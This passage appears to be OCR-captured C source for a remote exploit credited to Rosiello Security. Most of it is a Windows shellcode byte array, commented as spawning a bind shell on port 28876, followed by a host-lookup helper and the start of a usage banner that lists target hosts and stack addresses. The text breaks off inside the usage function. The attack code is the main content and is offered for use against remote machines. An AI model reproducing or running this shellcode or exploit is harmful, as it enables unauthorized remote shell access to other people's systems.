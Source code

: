 




    //Bindcode spawns a binshell on port 28876 (Thanks to metasploit.com guys)
    unsigned char  shellcode[] =
      "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
      "\xeb\x43\x56\x57\x8b\x45\x3c\x8b\x54\x05\x78\x01\xea\x52\x8b\x52"
      "\x20\x01\xea\x31\xc0\x31\xc9\x41\x8b\x34\x8a\x01\xee\x31\xff\xc1"
      "\xcf\x13\xac\x01\xc7\x85\xc0\x75\xf6\x39\xdf\x75\xea\x5a\x8b\x5a"
      "\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a\x1c\x01\xeb\x8b\x04\x8b\x01"
      "\xe8\x5f\x5e\xff\xe0\xfc\x31\xc0\x64\x8b\x40\x30\x8b\x40\x0c\x8b"
      "\x70\x1c\xad\x8b\x68\x08\x31\xc0\x66\xb8\x6c\x6c\x50\x68\x33\x32"
      "\x2e\x64\x68\x77\x73\x32\x5f\x54\xbb\x71\xa7\xe8\xfe\xe8\x90\xff"
      "\xff\xff\x89\xef\x89\xc5\x81\xc4\x70\xfe\xff\xff\x54\x31\xc0\xfe"
      "\xc4\x40\x50\xbb\x22\x7d\xab\x7d\xe8\x75\xff\xff\xff\x31\xc0\x50"
      "\x50\x50\x50\x40\x50\x40\x50\xbb\xa6\x55\x34\x79\xe8\x61\xff\xff"
      "\xff\x89\xc6\x31\xc0\x50\x50\x35\x02\x01\x70\xcc\xfe\xcc\x50\x89"
      "\xe0\x50\x6a\x10\x50\x56\xbb\x81\xb4\x2c\xbe\xe8\x42\xff\xff\xff"
      "\x31\xc0\x50\x56\xbb\xd3\xfa\x58\x9b\xe8\x34\xff\xff\xff\x58\x60"
      "\x6a\x10\x54\x50\x56\xbb\x47\xf3\x56\xc6\xe8\x23\xff\xff\xff\x89"
      "\xc6\x31\xdb\x53\x68\x2e\x63\x6d\x64\x89\xe1\x41\x31\xdb\x56\x56"
      "\x56\x53\x53\x31\xc0\xfe\xc4\x40\x50\x53\x53\x53\x53\x53\x53\x53"
      "\x53\x53\x53\x6a\x44\x89\xe0\x53\x53\x53\x53\x54\x50\x53\x53\x53"
      "\x43\x53\x4b\x53\x53\x51\x53\x87\xfd\xbb\x21\xd0\x05\xd0\xe8\xdf"
      "\xfe\xff\xff\x5b\x31\xc0\x48\x50\x53\xbb\x43\xcb\x8d\x5f\xe8\xcf"
      "\xfe\xff\xff\x56\x87\xef\xbb\x12\x6b\x6d\xd0\xe8\xc2\xfe\xff\xff"
      "\x83\xc4\x5c\x61\xeb\x89\x41";


    // now what would this button do ?
    char *host_ip;
    u_long get_ip(char *hostname)
    {
     struct  hostent    *hp;

     if (ISIP(hostname)) return inet_addr(hostname);

      if ((hp = gethostbyname(hostname))==NULL)
      { perror ("[+] gethostbyname() failed check the existance of the host.\n");
        exit(-1); }

      return (inet_ntoa(*((struct in_addr *)hp->h_addr)));
    }


    /// oooh yeah uuuh right ....
    int usage (char *what)
    {
     int i;
      fprintf(stdout,"Copyright © Rosiello Security\n");
      fprintf(stdout,"http://www.rosiello.org\n\n");
      fprintf(stdout,"Usage %s <target host> <target number>\n",what);
      fprintf(stdout,"Target Number\t\tTarget Name\t\t\t\tStack Adress\n");
      fprintf(stdout,"=============\t\t===========\t\t\t\t===========\n");
